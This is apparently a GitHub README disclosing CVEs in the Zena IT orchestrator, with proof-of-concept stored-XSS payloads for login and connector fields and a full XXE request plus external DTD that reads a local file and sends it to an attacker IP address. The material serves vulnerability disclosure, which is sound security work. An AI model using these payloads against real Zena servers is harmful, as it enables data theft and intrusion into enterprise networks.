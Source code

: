# Zena
Housekeeping notes: The original CookieMonster Repo can be found here https://github.com/JetP1ane/zena

CVE-2021-45026 XSS

CVE-2021-45025 Cleartext Storage of Sensitive Information in a Cookie

## Zena CookieMonster: POC code for XSS to RCE

The CookieMonster POC is a proof of concept for achieving Remote Code Execution on the Zena Server and ALL of it's connected endpoints.
Since zena is an IT orchastrator that is primarly used on an enterprises internal network it often is connected to many devices and can allow a rapid pivot and compromise of many devices as well as a pivot to other internal domains.

## Basic XSS payload details and injection points

Zena – ClientManager:
XSS(Cross-Site Scripting):

• Type: Stored XSS – Unauthenticated

• Pages Affected: /zena/index.html

Description: User input field(and probably more fields) on the Zena ClientManager login page allow for
an attacker to submit specially crafted javascript payloads that are persistently stored and executed
when a user on the Zena system navigates to Client Manager logs and shows details for the log.
POC code – placed into the username field on the login page: 

```</li><img/src='fail'/onerror=alert("vulnerable")></img>```

XSS(Cross-Site Scripting):

• Type: Stored XSS

• Pages Affected: /webconfig/index.html requires authentication. the webconfig page has a hardcoded default password.

Description: Certain input fields in the connector creation allow for an attacker to submit specially
crafted arbitrary javascript payloads that are persistently stored and executed when loading the page
POC code - placed into the Name input field:

```</li><img/src='fail'/onerror=alert("vulnerable")></img>```


![image](https://user-images.githubusercontent.com/81385287/171973915-0ff4e8b4-2d39-4558-a794-a7dae6e4935d.png)
![image](https://user-images.githubusercontent.com/81385287/171973946-9073ad46-e200-437a-80f8-5f11669b462a.png)
![image](https://user-images.githubusercontent.com/81385287/171973970-c2f7eefe-4cfe-4a64-ad27-4691324c1952.png)

## Proof of Concept code for XXE to SSRF to Data Exfiltration exploit for asg-zena

CVE-2021-45024 XXE

Authors: James Barnett and Jeffrey Green

XXE(XML External Entity) (CWE-611):
• Type: SSRF and Exfiltration
• Pages Affected: /zena.index.html
• Endpoints Affected: oc_main/zenaweb/scheduler/operation
• Description: Several of the ClientManager’s import functions can be abused by manipulating the
XML import data to contain external entity values that can induce the server to perform certain
functions it was not intended to do. Ex. Reading a local file and exfiltrating it over an HTTP
request back to the attacker
Poc code - Request body to zena server:

```

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://52.15.202.214:8080/xxe.dtd">
%sp;
%param1;
%exfil;
]>
<PACKAGE CREATED="2022.02.15 21.49.34" EXCLUDE_PASSWORDS="NO" INCLUDE_AGENT_REFS="NO"
INCLUDE_DEF_REFS="NO" TYPE="4" UID="E311C8FC7118"><ITEMS><ITEM LIST_TYPE="4"
MODIFIED="2022.02.15 21.22.30" NAME="research" UID="A2A9235502DE"/></ITEMS><USERS><USER
MODIFIED="2022.02.15 21.22.30" NAME="research" REFERENCE="NO"
UID="A2A9235502DE"><![CDATA[<USER NAME="research"
PASSWORD="3jkY15nHscTNeexdKq+gVqiMsh1ngexPj4of7xliF3uDjnkTkJw7qq78ruSMvOGat"
UID="A2A9235502DE" LOGIN="research" DOMAIN="EC2AMAZ-57EH5UL" ALLRIGHTS="YES"
ALLAGENTS="YES"><DESCRIPTION></DESCRIPTION><ROLES/></USER>]]></USER></USERS></PACKAGE>
```



External DTD code hosted on attacker server as xxe.dtd:

```

<!ENTITY % data SYSTEM "file:///c:/sensative.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://52.15.202.214:8080/?%data;'>">

```

![image](https://user-images.githubusercontent.com/81385287/171972899-f595ccbc-f45b-4368-8944-f470960ebad9.png)



